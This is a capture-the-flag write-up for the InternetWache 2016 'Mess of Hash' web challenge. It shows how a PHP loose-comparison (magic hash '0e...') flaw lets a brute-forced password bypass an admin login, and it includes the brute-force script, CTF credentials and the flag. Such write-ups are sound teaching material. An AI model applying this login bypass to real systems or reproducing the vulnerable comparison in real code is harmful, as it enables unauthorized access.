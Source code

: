+++
author = "simonvik"
categories = [ "writeups" ]
date = "2016-02-21T20:00:12+01:00"
description = ""
title = "InternetWache 2016 Mess of Hash (Web 50) "

+++

# Problem
> Description: Students have developed a new admin login technique. I doubt that
it's secure, but the hash isn't crackable. I don't know where the problem is...

(web50, solved by 170)

Attachment: web50.zip

Service: https://mess-of-hash.ctf.internetwache.org/

# Solution

We unpack the attachment and get a README.txt containing:

~~~PHP
<?php

$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}
~~~

We can directly see that the hash assigned to `$admin_pw` looks interesting.

From knowing PHP we know that it can cast strings containing numbers to floats and `0e408306536730731920197920342119` is a valid number.

We also know that the precision of floats in php is limited.

We can now assume that all we need to do is to generate a new hash with the format of 0e.... that is equal the float of `0e408306536730731920197920342119`.

I hacked together the following small script that bruteforces a new password where `(float) hash == (float) 0e408306536730731920197920342119`

~~~PHP
<?php

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}

function randomPassword() {
    $alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890';
    $pass = array(); //remember to declare $pass as an array
    $alphaLength = strlen($alphabet) - 1; //put the length -1 in cache
    for ($i = 0; $i < 8; $i++) {
        $n = rand(0, $alphaLength);
        $pass[] = $alphabet[$n];
    }
    return implode($pass); //turn the array into a string
}

while(true){
	$pass = randomPassword();

	if(myhash($pass) == "0e408306536730731920197920342119"){
		echo myhash($pass), "\n";
		echo $pass, "\n";
	}
}
~~~


After a few minutes we get a new password and hash.

The first password we get is `FbTaQN1k`:

And the resulting hash is: `0e137008612571603628970211017933`.

We can now log into https://mess-of-hash.ctf.internetwache.org/ with `pr0_adm1n:FbTaQN1k`.

And we now have the flag : **IW{T4K3_C4RE_AND_C0MP4R3}**.
